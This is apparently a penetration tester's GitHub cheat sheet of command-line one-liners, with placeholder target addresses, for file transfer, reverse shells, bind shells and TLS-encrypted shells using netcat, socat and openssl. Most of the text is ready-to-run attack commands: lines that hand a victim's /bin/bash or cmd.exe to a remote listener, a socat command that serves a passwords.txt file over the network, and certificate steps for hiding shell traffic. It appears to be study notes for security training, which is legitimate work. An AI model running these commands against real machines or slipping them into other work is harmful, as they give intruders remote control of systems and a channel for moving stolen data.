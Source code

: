 # Utilities 
useful CLI utilities

## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
`socat TCP4:{ip-address}:443 file:passwords.txt,create`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with openssl
utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
 - socat listener utilizing the cert
 	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
 - socat SSL connection to listener
 	- `socat - OPENSSL:{ip-address}:443,verify=0`
